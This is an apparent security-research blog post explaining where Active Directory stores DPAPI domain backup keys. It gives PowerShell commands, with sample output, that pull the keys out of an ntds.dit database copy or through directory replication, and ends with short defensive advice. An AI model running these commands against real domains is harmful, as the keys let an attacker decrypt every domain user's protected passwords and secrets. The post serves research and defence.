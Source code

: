 ```yaml
---
ref: dpapi-backup-keys
title: 'Retrieving DPAPI Backup Keys from&nbsp;Active Directory'
date: 2015-10-26T22:51:00+00:00
layout: post
lang: en
image: /assets/images/backupkeys_storage.png
permalink: /en/retrieving-dpapi-backup-keys-from-active-directory/
tags:
    - 'Active Directory'
    - DPAPI
    - PowerShell
    - Security
---
```


The Data Protection API (DPAPI) is&nbsp;used by&nbsp;several components of&nbsp;Windows to&nbsp;securely store passwords, encryption keys and&nbsp;other sensitive data. When&nbsp;DPAPI is&nbsp;used in&nbsp;an&nbsp;Active Directory domain environment, a&nbsp;copy of&nbsp;user’s master key is&nbsp;encrypted with&nbsp;a&nbsp;so-called DPAPI Domain Backup Key that&nbsp;is&nbsp;known to&nbsp;all domain controllers. Windows Server 2000 DCs use a&nbsp;symmetric key and&nbsp;newer systems use a&nbsp;public/private key pair. If&nbsp;the&nbsp;user password is&nbsp;reset and&nbsp;the&nbsp;original master key is&nbsp;rendered inaccessible to&nbsp;the&nbsp;user, the&nbsp;user’s access to&nbsp;the&nbsp;master key is&nbsp;automatically restored using the&nbsp;backup key.

<!--more-->

## The&nbsp;Mimikatz Method

Benjamin Delpy has already found a&nbsp;way to&nbsp;extract these backup keys from&nbsp;the&nbsp;LSASS of&nbsp;domain controllers and&nbsp;it&nbsp;even&nbsp;works remotely:

![Mimikatz DPAPI Backup Keys](../../assets/images/mimikatz_backupkeys.png)

## Key Storage

I have taken Benjamin’s research one step further and&nbsp;I&nbsp;can&nbsp;now&nbsp;extract these keys directly from&nbsp;the&nbsp;Active Directory database, where&nbsp;they are&nbsp;physically stored:

![Backup Key Storage](../../assets/images/backupkeys_storage.png)

The keys are&nbsp;stored in&nbsp;the&nbsp;**currentValue** attribute of&nbsp;objects whose names begin with&nbsp;**BCKUPKEY** and&nbsp;are&nbsp;of&nbsp;class **secret**. The&nbsp;**BCKUPKEY_PREFERRED Secret** and&nbsp;**BCKUPKEY_P Secret** objects actually only contain GUIDs of&nbsp;objects that&nbsp;hold the&nbsp;current modern and&nbsp;legacy keys, respectively. Furthermore, the&nbsp;currentValue attribute is&nbsp;encrypted using BootKey (aka SysKey) and&nbsp;is&nbsp;never sent through LDAP.

## The&nbsp;Database Dump Method

The **Get-BootKey**, **Get-ADDBBackupKey** and&nbsp;**Save-DPAPIBlob** cmdlets from&nbsp;my [DSInternals PowerShell Module](/en/projects/) can&nbsp;be&nbsp;used to&nbsp;retrieve the&nbsp;DPAPI Domain Backup Keys from&nbsp;ntds.dit files:

```powershell
# We need to get the BootKey from the SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

<#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#>

# Now we can decrypt the DPAPI backup keys from the database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

<#
Output:

Type : LegacyKey
DistinguishedName : CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {77, 138, 250, 6...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : PreferredLegacyKeyPointer
DistinguishedName : CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {14, 178, 130, 120...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : RSAKey
DistinguishedName : CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {48, 130, 9, 186...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type : PreferredRSAKeyPointer
DistinguishedName : CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {62, 106, 197, 177...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#>

# In most cases, we just want to export these keys to the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in the Keys directory:

(dir .\Keys).Name

<#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#>
```

Note that&nbsp;mimikatz would name these files similarly.

## The&nbsp;DRSR Method

The same result can&nbsp;be&nbsp;achieved by&nbsp;communicating with&nbsp;the&nbsp;Directory Replication Service using the&nbsp;**Get-ADReplBackupKey** cmdlet:

```powershell
Get-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys
```

## Defense

I am already starting to&nbsp;repeat myself:

- Restrict access to&nbsp;domain controller backups.
- Be&nbsp;cautious when&nbsp;delegating the&nbsp;*Replicating Directory Changes All* right.
